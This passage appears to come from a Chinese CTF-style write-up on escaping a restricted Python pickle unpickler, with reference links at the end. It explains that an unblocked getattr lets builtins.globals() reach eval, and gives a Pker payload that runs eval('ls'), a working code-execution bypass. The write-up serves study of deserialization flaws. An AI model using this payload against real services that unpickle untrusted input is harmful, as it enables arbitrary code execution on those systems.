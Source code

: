 ``` python

def restricted_loads(s):
    return RestrictedUnpickler(io.BytesIO(s)).load()

restricted_loads(base64.b64decode(input()))
```
代码的主要内容就是限制了反序列化的内容,规定了我们只能引用builtins这个模块,而且禁止了里面的一些函数.但是没有禁止getattr这个方法,因此我们可以构造builtins.getattr(builtins,'eval')的方法来构造eval函数.pickle不能直接获取builtins一级模块，但可以通过builtins.globals()获得builtins；这样就可以执行任意代码了.

理解了思路后,我们就可以用Pker构造了
``` python
getattr=GLOBAL('builtins','getattr')
dict=GLOBAL('builtins','dict')
dict_get=getattr(dict,'get')
glo_dic=GLOBAL('builtins','globals')()
builtins=dict_get(glo_dic,'builtins')
eval=getattr(builtins,'eval')
eval('ls')
return
```

# 参考文章
[知乎阮行止大佬的文章](https://zhuanlan.zhihu.com/p/89132768?utm_source=wechat_session&utm_medium=social&utm_oi=1199776455791677440)  
[通过AST来构造Pickle opcode](https://xz.aliyun.com/t/7012#toc-8)  
[pickle反序列化初探](https://xz.aliyun.com/t/7436#toc-15)  
[P神的文章](https://www.leavesongs.com/PENETRATION/code-breaking-2018-python-sandbox.html#pickle-code)  
[Code Breaking picklecode复现](https://xz.aliyun.com/t/5306#toc-2)

